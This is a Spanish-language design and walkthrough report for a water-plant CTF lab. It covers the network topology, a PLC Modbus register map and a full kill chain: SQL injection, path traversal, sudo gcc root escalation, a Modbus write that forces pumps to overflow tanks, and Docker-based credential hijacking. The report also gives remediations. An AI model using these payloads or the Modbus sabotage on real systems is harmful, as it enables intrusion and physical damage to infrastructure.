


# 🌊 INFORME TÉCNICO INTEGRAL: CTF AGUAS DEL VALLE S.A.
**Sector 3: Planta de Tratamiento, Distribución y Control Cibercinético (IT/OT)**  
**Clasificación:** Confidencial / Documentación de Diseño y Auditoría Ofensiva  
**Fecha:** Octubre 2026  
**Versión:** 2.5 (Arquitectura Consolidada)

---

## 📑 1. RESUMEN EJECUTIVO

El proyecto **CTF Aguas del Valle S.A.** es un entorno de simulación cibercinética y entrenamiento ofensivo/defensivo que reproduce con fidelidad los riesgos de seguridad derivados de la convergencia **IT/OT (Information Technology / Operational Technology)**.

El reto modela una planta de agua potable distribuida en cuatro estanques, controlada de manera híbrida por un **PLC Siemens S7-1200** (`10.10.30.103`) y un nodo edge **Raspberry Pi 4 Model B** que opera como RTU física gobernando bombas de 12V, sensores láser ToF (Time-of-Flight) I2C y luminarias de estado.

El objetivo pedagógico y competitivo consiste en obligar al atacante a recorrer una cadena de intrusión completa (**Kill Chain**):
1. **Compromiso Externo (IT):** Explotación de vulnerabilidades web (SQLi y LFI) en una aplicación SCADA Web dockerizada.
2. **Pivote y Movimiento Lateral:** Escape contextual del contenedor hacia el host Linux corporativo (`operador_it` vía SSH).
3. **Escalada Local de Privilegios (Host PrivEsc):** Abuso de privilegios delegados (`sudo gcc`) para burlar las restricciones de red implementadas a nivel de kernel mediante `iptables`.
4. **Impacto Físico (OT Sabotage):** Inyección de tramas **Modbus TCP (puerto 502)** hacia el PLC y la maqueta física, provocando un desbordamiento real de tanques y manipulación de luminarias de advertencia.
5. **Post-Explotación de Infraestructura:** Secuestro de credenciales administrativas en MySQL mediante acceso al daemon Docker para reclamar las banderas web finales.

---

## 🗺️ 2. TOPOLOGÍA DE RED Y ARQUITECTURA GENERAL

El entorno de red se encuentra segmentado en tres zonas lógicas protegidas por un cortafuegos perimetral (**pfSense**):

```mermaid
flowchart TD
    subgraph WAN ["🌐 Red WAN / Atacante"]
        Atacante["💻 Atacante (Kali / Parrot)\nIP: WAN DHCP"]
    end

    subgraph FW ["🛡️ Firewall Perimetral (pfSense)"]
        ReglaWAN["WAN -> IT: Permitir TCP 5000 (Web), TCP 22 (SSH)\nWAN -> OT: BLOQUEADO (Drop estricto)"]
    end

    subgraph IT ["🏢 Red IT / Corporativa (Debian Host 10.10.30.18)"]
        SSH["Servicio SSH\nPuerto 22"]
        DockerHost["Docker Engine\n(bridge network)"]
        subgraph Containers ["Contenedores Docker"]
            WebSCADA["scada_web (Flask/Gunicorn)\nPuerto 5000 -> Host:5000"]
            MySQLDB["mysqlbd (MySQL 8.0)\nPuerto 3306 (Solo interno)"]
        end
        IptablesRule["iptables OUTPUT:\nBloquea 80, 102, 502 a usuarios no-root"]
    end

    subgraph OT ["🏭 Red OT / Industrial (Aislada 10.10.30.0/24)"]
        PLC["PLC Siemens S7-1200\nIP: 10.10.30.103\nPuertos: 80 (HTTP/AWP), 102 (S7comm), 502 (Modbus)"]
        RaspberryRTU["Raspberry Pi 4 RTU\nDaemon RTU / I2C MUX TCA9548A\nBombas P1-P4 + Sensores VL53L0X"]
    end

    Atacante -->|HTTP :5000 / SSH :22| FW
    FW -->|Tráfico permitido| IT
    Atacante -.->|Tráfico Directo 502 (BLOQUEADO)| FW
    WebSCADA <-->|TCP :3306| MySQLDB
    WebSCADA -->|Polling Telemetría Modbus :502| PLC
    IT -->|Pivote Root SSH -> Modbus :502| PLC
    PLC <-->|Sincronización DB4 CTF_ModBus| RaspberryRTU
```

### Tabla de Direccionamiento e Interfaces

| Activo / Componente | Dirección IP | Zona | Puertos Abiertos | Rol en el Escenario |
| :--- | :--- | :--- | :--- | :--- |
| **Estación Atacante** | Asignada por WAN | WAN | N/A | Origen de los vectores de auditoría. |
| **Firewall pfSense** | `10.10.30.1` (GW OT) | Perímetro | 80/443 (Admin) | Enrutamiento e interdicción WAN $\to$ OT. |
| **Debian Host (Víctima)** | `10.10.30.18` | IT / DMZ | 22 (SSH), 5000 (Web) | Foothold inicial y pivote obligatorio. |
| **Contenedor `scada_web`**| Red Docker Bridge | Docker IT | 5000 (HTTP) | Frontal web SCADA corporativo. |
| **Contenedor `mysqlbd`**  | Red Docker Bridge | Docker IT | 3306 (MySQL) | Almacenamiento de credenciales y bitácoras. |
| **PLC Siemens S7-1200**   | `10.10.30.103` | OT | 80 (AWP), 102, 502 (MB) | Controlador lógico de procesos industriales. |
| **Raspberry Pi 4 (RTU)**  | `10.10.30.X` (OT) | OT | N/A (Cliente Poller) | Interfaz física con actuadores y sensores ToF. |

---

## 🧩 3. INVENTARIO DE HARDWARE & DRIVERS DEL NODO RASPBERRY PI

La maqueta física reproduce un sistema de control de 4 estanques con aislamiento eléctrico y actuadores dobles.

### A. Mapeo Eléctrico y de Sensores (Cuadrante 3)

| Estanque / Sector | Canal I2C MUX | Bornera PCB | Bomba Asoc. | Pines GPIO Relé (+12V / GND) | Registros Modbus |
| :--- | :---: | :---: | :---: | :---: | :---: |
| **Estanque 1** | Canal 2 | **J20** | Bomba P1 | **GPIO 4, GPIO 5** | HR 21 (RAW), HR 22 (%) |
| **Estanque 2** | Canal 0 | **J18** | Bomba P2 | **GPIO 6, GPIO 7** | HR 23 (RAW), HR 24 (%) |
| **Estanque 3** | Canal 3 | **J21** | Bomba P3 | **GPIO 27, GPIO 19** | HR 25 (RAW), HR 26 (%) |
| **Estanque 4** | Canal 1 | **J19** | Bomba P4 | **GPIO 26, GPIO 12** | HR 27 (RAW), HR 28 (%) |

*   **Multiplexor I2C:** Texas Instruments TCA9548A en dirección I2C `0x70`.
*   **Línea de Reset del Multiplexor:** **GPIO 17** (Pin físico 11).
*   **Sensores de Distancia:** 4 $\times$ VL53L0X (Tiempo de vuelo por láser infrarrojo, dirección `0x29`).
*   **Luminarias de Alerta (Modo Fiesta / Flag 4):** GPIO 9 y GPIO 11.
*   **Tiras LED Direccionables:** 2 tiras WS2812B de 120 LEDs controladas vía DMA (`rpi_ws281x` en GPIO 18 y GPIO 13).
*   **Semáforos Industriales:** Semáforo 1 (GPIOs 22, 23, 24) y Semáforo 2 (GPIOs 16, 20, 21).

---

## ⚡ 4. ARQUITECTURA DE RESILIENCIA DEL DAEMON (`rtu_daemon.py` / `test_daemon.py`)

Para evitar que el demonio de control físico se congele ante perturbaciones electromagnéticas o fallos de sensores, se implementó una **dupla de alta disponibilidad en software**:



### Detalle de las Opciones Implementadas:
*   **Opción C (Desacoplamiento Asíncrono con Caché):**
    *   La interrogación I2C se extrajo del hilo principal y corre en `HiloLectorSensores`.
    *   Cada medición individual tiene un límite estricto de **350 ms**.
    *   El bucle Modbus (`_bucle_control`) **nunca toca los cables I2C**, leyendo únicamente variables en memoria RAM (`self._cache_distancias_mm`). Esto garantiza que el Watchdog del PLC (`HR 40`) jamás se detenga.
*   **Opción B (Auto-Recuperación por Hardware mediante GPIO 17):**
    *   Si el ruido electromagnético de los relés de 12V provoca un bloqueo de bus (*I2C bus lockup* con línea SDA en bajo) durante 3 barridos consecutivos, el hilo secundario ejecuta `reiniciar_bus_hardware()`.
    *   Se genera un pulso de 20 ms en **GPIO 17**, reiniciando el TCA9548A y restableciendo las comunicaciones en menos de 70 milisegundos sin reiniciar el proceso.
*   **Opción de Omisión Total de Sensores (`--sin-sensores`):**
    *   Ejecución mediante argumento de consola (`--sin-sensores` o `-s`), variable de entorno (`SKIP_SENSORES=1`) o selección interactiva en la cuenta regresiva de 5 segundos al arrancar.
    *   Permite operar el SCADA y las bombas en modo simulado si el hardware láser está desconectado.

---

## 📊 5. MAPA DE REGISTROS MODBUS TCP (DB4 `CTF_ModBus`)

El PLC Siemens S7-1200 aloja el bloque de datos **DB4**, expuesto vía el bloque de función estándar `MB_SERVER` en el puerto TCP 502:

| Dirección HR | Tipo de Dato | Offset DB4 | Nombre de Variable | Sentido | Descripción / Comportamiento |
| :---: | :---: | :---: | :--- | :---: | :--- |
| **`HR 0`** | `WORD` | `DBW 0` | `Estado_General` | Lectura / Escritura | **Byte Alto (DBX0.n $\to$ bits 8..15):**<br>• Bit 8: `Sensor_Alto_P1`<br>• Bit 9: `Comando_Bomba_P1`<br>• Bit 10: `Sensor_Alto_P2`<br>• Bit 11: `Comando_Bomba_P2`<br>• Bit 12: `Sensor_Alto_P3`<br>• Bit 13: `Comando_Bomba_P3`<br>• Bit 14: `Sensor_Alto_P4`<br>• Bit 15: `Comando_Bomba_P4` |
| **`HR 10`** | `INT` | `DBW 20` | `Color_LED_Flag4` | PLC $\to$ RTU | **Efecto Físico Flag 4:**<br>0: Normal (Azul/Naranjo según nivel).<br>1: Rojo, 2: Verde, 3: Azul, 4: Ámbar, 5: Cian, 6: Magenta, 7: Blanco. Enciende luminarias L1 y L2. |
| **`HR 21`** | `INT` | `DBW 42` | `Sensor_P1_RAW` | RTU $\to$ PLC | Distancia bruta en mm del Estanque 1 (VL53L0X Canal 2). |
| **`HR 22`** | `INT` | `DBW 44` | `Sensor_P1_PCT` | RTU $\to$ PLC | Porcentaje de llenado escalado del Estanque 1 (0 a 100%). |
| **`HR 23`** | `INT` | `DBW 46` | `Sensor_P2_RAW` | RTU $\to$ PLC | Distancia bruta en mm del Estanque 2 (VL53L0X Canal 0). |
| **`HR 24`** | `INT` | `DBW 48` | `Sensor_P2_PCT` | RTU $\to$ PLC | Porcentaje de llenado escalado del Estanque 2 (0 a 100%). |
| **`HR 25`** | `INT` | `DBW 50` | `Sensor_P3_RAW` | RTU $\to$ PLC | Distancia bruta en mm del Estanque 3 (VL53L0X Canal 3). |
| **`HR 26`** | `INT` | `DBW 52` | `Sensor_P3_PCT` | RTU $\to$ PLC | Porcentaje de llenado escalado del Estanque 3 (0 a 100%). |
| **`HR 27`** | `INT` | `DBW 54` | `Sensor_P4_RAW` | RTU $\to$ PLC | Distancia bruta en mm del Estanque 4 (VL53L0X Canal 1). |
| **`HR 28`** | `INT` | `DBW 56` | `Sensor_P4_PCT` | RTU $\to$ PLC | Porcentaje de llenado escalado del Estanque 4 (0 a 100%). |
| **`HR 39`** | `WORD` | `DBW 78` | `Watchdog_Status` | PLC $\to$ RTU | Estado de vida reportado por el PLC. |
| **`HR 40`** | `WORD` | `DBW 80` | `Watchdog_Comms` | RTU $\to$ PLC | Contador incremental (0..65535) para certificar latido de RTU. |
| **`HR 41`** | `WORD` | `DBW 82` | `Watchdog_Errcode`| RTU $\to$ PLC | 0 = Operación normal; 1 = Fallo de lecturas de sensores. |

---

## 🎯 6. KILL CHAIN COMPLETA: PASO A PASO (WALKTHROUGH)



---

### 🟢 FASE 1: Infiltración Externa y SQL Injection
*   **Vector de Entrada:** `http://10.10.30.18:5000/login`
*   **Vulnerabilidad:** Inyección SQL clásica en el endpoint del buscador de operadores:
    ```http
    GET /api/v1/search?query=' HTTP/1.1
    Host: 10.10.30.18:5000
    ```
*   **Respuesta Vulnerable:** La aplicación retorna traza detallada del motor de base de datos (`OperationalError`), confirmando concatenación de cadenas sin parametrización en `buscar_operador()`:
    ```sql
    SELECT id, username, nombre, rol FROM usuarios WHERE nombre LIKE '%{query}%'
    ```
*   **Payload de Explotación:**
    ```text
    ' UNION SELECT 1, username, password_hash, rol FROM usuarios-- -
    ```
*   **Extracción de Credenciales:**
    *   `op_turno1`: Hash Scrypt robusto (Incrackeable en tiempo de competencia).
    *   `admin_scada`: Hash Scrypt robusto (Incrackeable).
    *   `testing`: `07fa19d0f01a5f507b88ba093140a65d` (Hash MD5 plano).
*   **Cracking de Credencial:**
    *   Al pasar el hash por diccionarios estándar (`rockyou.txt`) o decodificadores online, se obtiene la contraseña en menos de 1 segundo:
        $$\text{MD5}(\text{"sistemas12"}) = \text{07fa19d0f01a5f507b88ba093140a65d}$$
*   **Logro:** Inicio de sesión exitoso en `/login` con el usuario `testing` / `sistemas12`.

---

### 🟡 FASE 2: Fuzzing de Rutas y Exfiltración LFI
*   **El Problema:** El usuario `testing` tiene privilegios restringidos de operador básico en `/intranet`.
*   **Fuzzing de Directorios:** Ejecución de `ffuf` o `gobuster`:
    ```bash
    gobuster dir -u http://10.10.30.18:5000/ -w /usr/share/wordlists/dirb/common.txt -b 404
    ```
*   **Hallazgo:** Descubrimiento de la ruta oculta `/api/v1/messages`.
*   **Lectura de la Pista (Foro Retro 90s):**
    El endpoint renderiza un foro interno donde el administrador le escribe al operador:
    > *"Por seguridad cambié la contraseña del operador IT en el servidor. Te la dejo codificada en base64 para que no quede en texto plano: Q2lCM1IxQWJ7MFAzUjRET1IyMDI2XzY3fQ=="*
*   **Decodificación de Credencial SSH:**
    ```bash
    echo "Q2lCM1IxQWJ7MFAzUjRET1IyMDI2XzY3fQ==" | base64 -d
    # Resultado: CiB3R1Ab{0P3R4DOR2026_67}
    ```
*   **Explotación de Local File Inclusion (LFI):**
    En el gestor de descargas de `/intranet/download?file=...`, el atacante verifica si puede leer archivos del sistema operativo mediante Path Traversal:
    ```http
    GET /intranet/download?file=../../../../etc/passwd HTTP/1.1
    Cookie: session=...
    ```
*   **La Pista Psicológica del Dockerfile:**
    Al leer el `/etc/passwd` del contenedor web, el atacante nota la entrada del usuario `operador_it`:
    ```text
    operador_it:x:1001:1001:bG9zIHVzdWFyaW9zIGV4aXN0ZW4sIHBlcm8gbm8gZW4gZXN0ZSBwYXNzd2QgOyk=:/home/operador_it:/bin/bash
    ```
    Al decodificar la cadena Base64 del campo GECOS:
    ```bash
    echo "bG9zIHVzdWFyaW9zIGV4aXN0ZW4sIHBlcm8gbm8gZW4gZXN0ZSBwYXNzd2QgOyk=" | base64 -d
    # Mensaje: "los usuarios existen, pero no en este passwd ;)"
    ```
    *Lección:* El atacante comprende que está atrapado en un contenedor Docker y que las credenciales obtenidas corresponden al **servidor host físico Debian** en el puerto SSH 22.

---

### 🟠 FASE 3: Salto Lateral (SSH) y Escalada Local (Host PrivEsc)
*   **Acceso Inicial al Host:**
    ```bash
    ssh operador_it@10.10.30.18
    # Password: CiB3R1Ab{0P3R4DOR2026_67}
    ```
*   **El Mecanismo de Bloqueo Anti-Cheat (`iptables`):**
    Si el atacante intenta lanzar ataques Modbus directamente desde la sesión de `operador_it`:
    ```bash
    python3 -c "from pyModbusTCP.client import ModbusClient; c=ModbusClient('10.10.30.103', 502); print(c.open())"
    # Salida: False (Connection Refused / Packet Dropped)
    ```
    *Razón Técnica:* El script de hardening `setup_debian_host.sh` configuró una regla estricta en el kernel Linux:
    ```bash
    iptables -A OUTPUT -p tcp -d 10.10.30.103 -m multiport --dports 80,102,502 -m owner ! --uid-owner 0 -j REJECT
    ```
    Ningún proceso local puede comunicarse con el PLC a menos que pertenezca a **UID 0 (`root`)**. (Los contenedores Docker sí pueden porque su tráfico atraviesa la cadena `FORWARD`).
*   **Enumeración Local:**
    ```bash
    operador_it@debian-c3:~$ sudo -l
    Matching Defaults entries for operador_it on debian-c3:
        env_reset, mail_badpass, secure_path=...

    User operador_it may run the following commands on debian-c3:
        (root) NOPASSWD: /usr/bin/gcc
    ```
*   **Escalada de Privilegios (GTFOBins):**
    El binario `gcc` permite invocar un subproceso mediante el flag `-wrapper`:
    ```bash
    sudo /usr/bin/gcc -wrapper /bin/sh,-s x
    ```
*   **Resultado:** Se obtiene inmediatamente un prompt de superusuario (`#`):
    ```bash
    whoami
    # root (UID 0)
    ```

---

### 🔴 FASE 4: Sabotaje Cibercinético (Ataque Modbus OT)
*   **Reconocimiento como Root:** Con privilegios de administrador, el kernel ya no bloquea los paquetes salientes hacia la IP del PLC (`10.10.30.103`).
*   **Ataque Flag 1: Desbordamiento Forzado:**
    El atacante ejecuta el script de ataque de la Flag 1 (`flag 1.py`):
    ```python
    from pyModbusTCP.client import ModbusClient

    client = ModbusClient(host="10.10.30.103", port=502, auto_open=True)
    # Escribir en HR 0 el valor 0x0300 (768) o encender las bombas
    # forzando el comando de bombeo y anulando interlocks
    client.write_single_register(0, 0x0300)
    ```
*   **Efecto Físico en la Maqueta:**
    1. Las bombas P1-P4 se activan a máxima potencia.
    2. El agua supera la cota de 40 mm (100%).
    3. Las tiras LED parpadean en naranja/rojo estroboscópico.
    4. El daemon detecta el desbordamiento prolongado y escribe la **FLAG 1** en los registros de diagnóstico de memoria.
*   **Ataque Flag 3: Reconocimiento Web Siemens (AWP):**
    El atacante interroga el servidor web interno del S7-1200 en el puerto 80:
    ```bash
    curl -s http://10.10.30.103:80/awp/ctf/index.htm
    ```
    Obtiene la **FLAG 3**, que corresponde a la constante oculta de calibración de umbrales del bloque FB3 (*ScaleSensores*).

---

### 🟣 FASE 5: Post-Explotación Docker y Bandera Web de Administrador
*   **Objetivo:** El panel de administración web (`/admin`) contiene la bandera final del reto, pero la cuenta `admin_scada` posee un hash Scrypt de 128 caracteres imposible de romper.
*   **Pivote vía Socket Docker:** Como el atacante es `root` en el host Debian, tiene acceso directo al daemon de contenedores:
    ```bash
    docker ps
    # NAMES      IMAGE            PORTS
    # scada-web  scada_web:latest 0.0.0.0:5000->5000/tcp
    # scada-db   mysql:8.0        3306/tcp
    ```
*   **Inspección de Secretos:**
    ```bash
    docker inspect scada-db | grep -i mysql_root_password
    # "MYSQL_ROOT_PASSWORD=aguas_del_valle_root_2026_pass"
    ```
*   **Secuestro de Contraseña en la Base de Datos Viva:**
    El atacante accede a MySQL e inserta un hash MD5 conocido (o generado por él) para suplantar al administrador:
    ```bash
    docker exec -i scada-db mysql -u root -paguas_del_valle_root_2026_pass aguas_del_valle << 'EOF'
    UPDATE usuarios 
    SET password_hash = '07fa19d0f01a5f507b88ba093140a65d' 
    WHERE username = 'admin_scada';
    EOF
    ```
*   **Reclamación de Victoria:**
    1. El jugador regresa a su navegador web en `http://10.10.30.18:5000/login`.
    2. Inicia sesión como `admin_scada` usando la contraseña `sistemas12`.
    3. Accede a `/admin` $\to$ La interfaz valida el rol de administrador, desencripta el bloque maestro y renderiza la **Flag Maestra del CTF**:
    ```text
    CtF_L1@I7uN{SCADA_PWN3D_0V3RFL0W_2026_S3CUR3}
    ```

---

## 🛡️ 7. MATRIZ DE VULNERABILIDADES, IMPACTO Y REMEDIACIÓN

| # | Vulnerabilidad / Debilidad | Componente Afectado | Impacto Técnico (CVSS) | Remediación Recomendada |
| :---: | :--- | :--- | :---: | :--- |
| **1** | **SQL Injection (CWE-89)** | `/api/v1/search` (`db.py`) | **9.8 (Crítico)** | Reemplazar consultas interpoladas por consultas preparadas parametrizadas (`cursor.execute(sql, (param,))`). |
| **2** | **Almacenamiento de Hashes Débiles (CWE-328)** | Tabla `usuarios` (`testing`) | **7.5 (Alto)** | Utilizar exclusivamente algoritmos lentos y salados como Argon2id o Scrypt con factor de costo adecuado; erradicar MD5. |
| **3** | **Local File Inclusion / Path Traversal (CWE-22)** | `/intranet/download` (`app.py`) | **8.6 (Alto)** | Validar y sanear el parámetro mediante `werkzeug.utils.secure_filename()` o mapear identificadores numéricos a rutas fijas. |
| **4** | **Fuga de Credenciales en Texto Claro (CWE-312)** | `/api/v1/messages` (`app.py`) | **7.5 (Alto)** | Prohibir el intercambio de secretos por canales no cifrados; eliminar endpoints residuales de depuración en producción. |
| **5** | **Mala Configuración de Sudoers (CWE-250)** | `/etc/sudoers.d/operador_it` | **8.8 (Alto)** | Eliminar `NOPASSWD` en binarios que permitan ejecución de comandos (`gcc`, `vim`, `find`, `bash`) según directrices de Least Privilege. |
| **6** | **Falta de Autenticación en Bus Modbus (CWE-306)** | S7-1200 / Puerto TCP 502 | **9.0 (Crítico)** | Implementar segmentación estricta en cortafuegos OT/IT, túneles IPsec o migrar a protocolos con autenticación criptográfica (Modbus Security / OPC UA). |
| **7** | **Exposición del Socket Docker (CWE-269)** | Host Debian | **9.9 (Crítico)** | Restringir el acceso a Docker mediante Rootless Docker o proteger el socket local mediante políticas AppArmor / SELinux. |

---

## 🚀 8. GUÍA RÁPIDA DE DESPLIEGUE Y OPERACIÓN

### Despliegue Unificado del Host y SCADA Web (Debian Host - Todo en uno)
```bash
cd /home/debian-c3/delete-me/scada_web
chmod +x deploy.sh
sudo ./deploy.sh
```
*(Este script único configura al usuario `operador_it`, la escalada `sudo gcc`, el bloqueo iptables a `10.10.30.103`, el camuflaje del puerto 22 y levanta los contenedores Docker).*

### Ejecución del Demonio Físico en Raspberry Pi
```bash
cd ~/nodo_raspberry

# Modo Completo (Escaneo con Timeout 10s, Opción B y C activas):
sudo ./venv/bin/python3 rtu_daemon.py

# Modo Test (Bypass Canal 2 / Estanque 1):
sudo ./venv/bin/python3 test_daemon.py

# Modo Sin Sensores (Omitir I2C por completo):
sudo ./venv/bin/python3 rtu_daemon.py --sin-sensores
```

---
*Fin del Informe Técnico.*
